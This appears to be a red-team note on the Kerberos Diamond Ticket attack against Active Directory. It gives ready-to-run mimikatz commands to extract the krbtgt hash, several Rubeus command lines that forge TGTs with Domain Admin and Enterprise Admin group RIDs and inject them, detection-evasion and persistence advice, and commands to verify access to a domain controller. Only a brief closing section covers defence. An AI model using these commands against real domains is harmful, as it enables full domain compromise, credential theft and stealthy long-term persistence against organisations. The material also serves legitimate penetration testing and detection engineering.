

> [!abstract] Diamond Ticket Attack (TGT PAC Modification)
> A **Diamond Ticket** is a sophisticated, hybrid ticket forgery technique that combines legitimate TGT components with forged elements. Instead of forging a TGT entirely from scratch offline (like a Golden Ticket), an attacker requests a *legitimate* TGT from the Domain Controller (KDC) using a compromised user's credentials. They then use the `krbtgt` hash to decrypt the TGT, modify the PAC (Privilege Attribute Certificate) to inject elevated privileges (e.g., Domain Admin), re-sign the PAC, and re-encrypt the TGT. This maintains realistic ticket characteristics, making detection significantly more challenging.
> **MITRE ATT&CK Mapping:** [T1558.001 - Steal or Forge Kerberos Tickets: Golden Ticket](https://attack.mitre.org/techniques/T1558/001/)

## Kerberos Flow & Attack Injection

> [!info] Understanding the Hybrid Approach
> A Golden Ticket bypasses the AS-REQ phase completely, which EDRs and SIEMs can easily detect. A Diamond Ticket performs a perfectly normal AS-REQ/AS-REP exchange to get a valid TGT. The attack happens *afterward* on the attacker's machine: the legitimate TGT is decrypted offline using the `krbtgt` key, the PAC is modified to add Domain Admin SIDs, and it is re-encrypted and re-signed. The KDC treats this modified ticket as completely legitimate.



---

## Prerequisites

> [!warning] Credential Requirements
> To forge a Diamond Ticket, you need a hybrid of user-level and domain-level compromised material:
> 
> **1. Legitimate User Authentication:**
> Valid credentials for *any* standard domain user. Less privileged accounts are preferred as they draw less suspicion.
> - Password
> - NTLM hash (RC4)
> - AES128 or AES256 keys
> 
> **2. KDC Key Material** **(**`krbtgt`**):**
> - The AES256, AES128, or NTLM hash of the `krbtgt` account (used to decrypt, re-sign, and re-encrypt the legitimate TGT).

> [!example]+ Extracting the `krbtgt` Hash
> If you are directly on the Domain Controller:
> ```cmd
> mimikatz # sekurlsa::krbtgt
> ```
> If you are remote (using DCSync, which requires Domain Admin privileges):
> ```cmd
> mimikatz # lsadump::dcsync /user:adolf\krbtgt /csv
> ```

---

## Execution: Rubeus

> [!danger]+ Forging the Diamond Ticket (Rubeus)
> Rubeus is the premier tool for Diamond Ticket attacks. It automates the process of requesting the legitimate TGT, decrypting it, modifying the PAC, and re-encrypting it.
> 
> **Syntax:**
> `Rubeus.exe diamond /user:USER /password:PASSWORD [krbkey] [options]`
> 
> **1. Basic Diamond Ticket with Password:**
> ```cmd
> Rubeus.exe diamond /user:testuser /password:password123 /krbkey:aes256_key /groups:512
> ```
> 
> **2. Diamond Ticket with Hash Authentication:**
> ```cmd
> Rubeus.exe diamond /user:serviceaccount /rc4:ntlm_hash /krbkey:aes256_key /groups:512,519
> ```
> 
> **3. Create and Inject Immediately (Pass-the-Ticket):**
> ```cmd
> Rubeus.exe diamond /user:normaluser /password:pass /krbkey:key /groups:512 /ptt
> ```
> 
> **4. Custom Groups and Extra SIDs:**
> ```cmd
> Rubeus.exe diamond /user:user /password:pass /krbkey:key /groups:512,513 /sids:S-1-5-21-...-1001
> ```
> 
> **5. Save to File for Analysis/Transport:**
> ```cmd
> Rubeus.exe diamond /user:user /password:pass /krbkey:key /groups:512 /outfile:diamond.kirbi
> ```

> [!tip] Kerberos Key Parameters
> - `/krbkey`: The KRBTGT key used for ticket decryption/modification.
> - `/krbenctype`: Encryption type for the Kerberos key (defaults to `aes256`). Can be set to `aes128` or `rc4` for legacy environments.

---

## Privilege Escalation (Group & SID Injection)

> [!example] Injecting Administrative Privileges
> The core of the Diamond Ticket attack is modifying the PAC to include privileged group RIDs or explicit SIDs.
> 
> **Group RID Reference:**
> | RID | Group Name |
> | :--- | :--- |
> | `512` | Domain Admins |
> | `518` | Schema Admins |
> | `519` | Enterprise Admins |
> | `520` | Group Policy Creator Owners |
> 
> **Injecting Multiple Administrative Groups:**
> ```cmd
> Rubeus.exe diamond /user:user /password:pass /krbkey:key /groups:512,519,520
> ```
> 
> **Injecting Custom SIDs:**
> Useful for cross-domain trust relationships or application-specific roles.
> ```cmd
> Rubeus.exe diamond /user:user /rc4:hash /krbkey:key /groups:512 /sids:S-1-5-21-domain-custom
> ```

---

## Operational Advantages & OPSEC

> [!success] Detection Evasion (Why Diamond > Golden)
> Unlike Golden Tickets, Diamond Tickets do not trigger "Encryption Downgrade" alerts or "Missing AS-REQ" anomalies. 
> 
> **Legitimate Characteristics:**
> - Generates real authentication event logs (Event ID 4768).
> - Valid ticket structure, timing, and encryption types.
> - Matches expected user behavior patterns.
> - Maintains realistic ticket attributes.
> 
> **Persistence Benefits:**
> - Survives normal user password changes (until KRBTGT key is rotated).
> - Maintains elevated privileges stealthily.
> - Supports long-term operations by adapting to changing operational requirements.

---

## Verification & Limitations

> [!warning] Verifying the Attack & Network Limitations
> To check if your Diamond Ticket attack was successful, you can verify access to domain resources. Because a Diamond Ticket modifies the PAC of a legitimately requested ticket, it often behaves more reliably across modern Windows versions than a Golden Ticket, but some network restrictions still apply.
> 
> **Important Limitation:** `WinRM` (Windows Remote Management / PowerShell Remoting) **does not work** natively when using a forged ticket because WinRM requires specific PAC structures and network logon restrictions that a modified ticket might not satisfy perfectly. 
> 
> Instead of testing with `Enter-PSSession` or `winrs`, use WMI (Windows Management Instrumentation) commands to verify access:
> ```powershell
> PS > gwmi win32_computersystem -ComputerName x.x.x.x
> PS > gwmi win32_OperatingSystem -ComputerName x.x.x.x
> ```
> You can also test standard SMB access:
> ```powershell
> PS > dir \\DC.adolf.local\c$
> ```

---

## Defensive Considerations

> [!danger] Detection Challenges & Mitigations
> Diamond Tickets are notoriously difficult to detect because they blend in with legitimate authentication traffic. Network-level IDS/IPS like Suricata cannot see inside the encrypted PAC payload.
> 
> **Limited Indicators:**
> - Defenders will see valid authentication events and normal ticket structures. It is very difficult to distinguish from legitimate access.
> 
> **Detection Opportunities:**
> - **Behavioral Analysis:** Unusual privilege escalation patterns (e.g., a low-privilege account suddenly accessing the `C$` share of a Domain Controller).
> - **Ticket Inspection:** Specialized tools that can inspect the PAC structure for anomalies (though this requires deep protocol analysis).
> 
> **Mitigation Strategies:**
> - **Regular KRBTGT Key Rotation:** The most effective defense. Rotate the KRBTGT password/key twice (to clear the old key from memory) to invalidate all forged Diamond/Golden tickets.
> - **Privileged Access Management (PAM):** Strictly monitor and restrict who has Domain Admin privileges.
> - **Enhanced Authentication Monitoring:** Monitor for unusual administrative access originating from low-privilege accounts.

